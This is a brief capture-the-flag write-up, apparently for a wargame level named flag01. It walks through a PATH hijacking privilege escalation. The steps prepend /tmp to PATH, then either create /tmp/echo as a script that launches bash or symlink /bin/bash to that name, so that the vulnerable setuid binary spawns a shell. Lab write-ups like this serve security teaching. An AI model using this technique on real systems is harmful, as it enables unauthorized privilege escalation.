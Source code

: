  - Seems something to do with `$PATH`
 - Set the `tmp` in the `$PATH` variable using the command below:
 
        export PATH=/tmp:$PATH
 
 - Create a executable bash file inside tmp folder and name it echo.
 
          #! /bin/bash
          bash
 
 - When the flag01 is executed /tmp/echo will get executed.
 
 - We can also create a symlink in tmp folder to execute whatever file we wnat to execute.
    `ln -s /bin/bash /tmp/echo`
    
  
    
    
